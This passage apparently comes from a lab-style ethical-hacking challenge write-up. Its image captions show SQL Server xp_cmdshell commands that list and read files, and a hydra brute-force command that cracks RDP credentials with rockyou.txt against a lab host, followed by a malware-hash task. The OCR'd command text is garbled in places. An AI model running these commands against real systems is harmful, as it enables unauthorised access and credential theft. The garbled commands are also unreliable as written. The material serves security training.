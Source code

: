 ![SQL> xp_cmdshell dir c:\sers\Public\Downloads\](Attachments/Pasted%20Graphic%2060.png)  
	  
![SQL> EXEC xp_cndshell type c: \Users\Public|Downloads\MSS.txt':](Attachments/Pasted%20Graphic%2021.png)  
  
  
**Challenge 9**:  
You are assigned to crack RDP credentials of user Maurice from the target subnet 192.168.10.0/24 and determine the password as answer. Note: use Note: use users.txt and rockyou.txt files stored in attacker home directory while cracking the credentials. (Format: Aaaaaaa@NNNN)  
  
192.168.10.222  
  
![(attacker@parrot) -[~)](Attachments/Pasted%20Graphic%2022.png)  
  
![- Shydra - 1 Maurice -P rockyou. Ext rdp: //192.168.10.222](Attachments/Pasted%20Graphic%2023.png)  
  
**Challenge 10**:  
You are assigned to perform malware scanning on a malware file Tools.rar stored in Downloads folder of EH workstation-2 machine and determine the last four digits of the file’s SHA-256 hash value. (Format: aNNN)  
  